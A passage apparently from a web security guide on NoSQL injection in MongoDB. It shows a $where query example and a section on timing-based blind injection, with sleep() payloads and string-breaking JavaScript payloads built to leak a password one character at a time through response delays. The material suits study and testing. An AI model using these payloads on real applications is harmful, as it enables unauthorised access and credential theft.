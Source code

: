 
You have :&#x20;

```json
[
    { "apple": "fruit", "color": "red" },
    { "banana": "fruit", "color": "yellow" },
    { "avocado": "fruit", "color": "green" },
    { "berry": "fruit", "color": "blue" }
]
```

Query

```javascript
db.collection.find({ "$where": "Object.keys(this)[0].match('^.{0}a.*')" })
```

```json
[
    { "apple": "fruit", "color": "red" },
    { "avocado": "fruit", "color": "green" }
]
```

{{< /details >}}

## Timing based injection

Database error doesn't cause a difference in the application's response? Trigger a conditional time delay

1. Load the page several times to determine a baseline loading time.
2. Insert a timing based payload into the input. Example `{"$where": "sleep(5000)"}`
3. Identify whether the response loads more slowly

* Trigger a time delay if the password beings with the letter `a`
  * `admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'`
  * `admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'`
